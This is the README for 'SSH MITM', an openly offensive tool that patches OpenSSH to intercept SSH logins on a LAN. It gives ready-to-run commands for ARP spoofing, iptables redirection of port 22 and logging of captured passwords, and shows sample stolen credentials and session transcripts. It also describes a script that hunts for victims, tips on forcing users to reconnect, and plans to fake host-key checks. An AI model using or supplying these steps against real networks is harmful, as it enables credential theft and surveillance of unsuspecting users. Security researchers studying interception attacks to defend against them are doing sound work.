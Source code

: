 # SSH MITM v1.1

Author: [Joe Testa](http://www.positronsecurity.com/about-us/) ([@therealjoetesta](https://twitter.com/therealjoetesta))


## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A patch applied to the OpenSSH v7.5p1 source code causes it to act as a proxy between the victim and their intended SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  But because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**NOTE:** Only run the modified *sshd_mitm* in a VM or container!  Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.


## Change Log

* v1.0: May 16, 2017: Initial revision.
* v1.1: ???, 2017: Removed root privilege dependencies, added automatic installer, added Kali Linux support, added JoesAwesomeSSHMITMVictimFinder.py script to find potential targets on a LAN.


## To Do

The following list tracks areas to improve:

* Support SFTP MITM'ing.
* Add port forwarding support.
* Regex substitute the output of *ssh-keygen* when a user tries to check the host key hash. >:]
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

As root, run the *install.sh* script.  This will install prerequisites from the repositories, download the OpenSSH archive, verify its signature, compile it, and initialize a non-privileged environment to execute from.


## Finding Targets

The *JoesAwesomeSSHMITMVictimFinder.py* script makes finding targets on a LAN very easy.  It will ARP spoof a block of IPs and sniff for SSH traffic for a short period of time before moving on to the next block.  Any ongoing SSH connections originating from devices on the LAN are reported.

By default, *JoesAwesomeSSHMITMVictimFinder.py* will ARP spoof and sniff only 5 IPs at a time for 20 seconds before moving onto the next block.  These parameters can be tuned, though a trade-off exists: the more IPs that are spoofed at a time, the greater the chance you will catch an ongoing SSH connection, but also the greater the strain you will put on your puny network interface.  Under too high of a load, your interface will start dropping frames, causing a denial-of-service and greatly raising suspicions (this is bad).  The defaults shouldn't cause problems in most cases, though it'll take longer to find targets.  The block size can be safely raised on low-utilization networks.

Example:

    # ./JoesAwesomeSSHMITMVictimFinder.py --interface enp0s3 --ignore-ips 10.11.12.50,10.11.12.53
    Found local address 10.11.12.141 and adding to ignore list.
    Using network CIDR 10.11.12.141/24.
    Found default gateway: 10.11.12.1
    IP blocks of size 5 will be spoofed for 20 seconds each.
    The following IPs will be skipped: 10.11.12.50 10.11.12.53 10.11.12.141


    Local clients:
      * 10.11.12.70 -> 174.129.77.155:22
      * 10.11.12.43 -> 10.11.99.2:22

The above output shows that two devices on the LAN have created SSH connections (10.11.12.43 and 10.11.12.70); these can be targeted for a man-in-the-middle attack.  Note, however, that in order to potentially intercept credentials, you'll have to wait for them to initiate new connections.  Impatient pentesters may opt to forcefully close existing SSH sessions, prompting users to create new ones immediately...


## Running The Attack

0.) Run the *install.sh* script, as mentioned above (this only needs to be done once).

1.) Run *sshd_mitm*:

    sudo su - ssh-mitm -c "./run.sh"

2.) Enable IP forwarding:

    sudo bash -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
    sudo iptables -P FORWARD ACCEPT

3.) Allow connections to *sshd_mitm* and re-route forwarded SSH connections:

    sudo iptables -A INPUT -p tcp --dport 2222 -j ACCEPT
    sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 2222

4.) ARP spoof a target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't likely be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

Alternatively, you can use the *ettercap* tool:

    ettercap -i enp0s3 -T -M arp /192.168.x.1// /192.168.x.5,192.168.x.6//

5.) Monitor *auth.log*.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

6.) Once a session is established, a full log of all input & output can be found in */home/ssh-mitm/session_\*.txt*.


## Sample Results

Upon success, */var/log/auth.log* will have lines that log the password, like this:

    May 16 23:14:01 showmeyourmoves sshd_mitm[16798]: INTERCEPTED PASSWORD: hostname: [10.199.30.x]; username: [jdog]; password: [supercalifragilistic] [preauth]

Furthermore, the victim's entire SSH session can be found in */home/ssh-mitm/session_\*.txt*:

    # cat /home/ssh-mitm/session_0.txt
    Last login: Tue May 16 21:35:00 2017 from 10.50.22.x
    OpenBSD 6.0-stable (GENERIC.MP) #12: Sat May  6 19:08:31 EDT 2017

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.

    jdog@jefferson ~ $ ppss
      PID TT  STAT       TIME COMMAND
    59264 p0  Ss      0:00.02 -bash (bash)
    52132 p0  R+p     0:00.00 ps
    jdog@jefferson ~ $ iidd
    uid=1000(jdog) gid=1000(jdog) groups=1000(jdog), 0(wheel)
    jdog@jefferson ~ $ sssshh  jjtteessttaa@@mmaaggiiccbbooxx
    jtesta@magicbox's password: ROFLC0PTER!!1juan


Note that the characters in the user's commands appear twice in the file because the input from the user is recorded, as well as the output from the shell (which echoes characters back).  Observe that when programs like sudo and ssh temporarily disable echoing in order to read a password, duplicate characters are not logged.


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd_mitm* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh -p 2222 valid_user_on_debug_host@localhost

To create a new patch, use these commands:

    pushd openssh-7.5p1-mitm/; make clean; popd
    diff -ru --new-file -x '*~' -x 'config.*' -x Makefile.in -x Makefile -x opensshd.init -x survey.sh -x openssh.xml -x buildpkg.sh openssh-7.5p1 openssh-7.5p1-mitm/ > openssh-7.5p1-mitm.patch
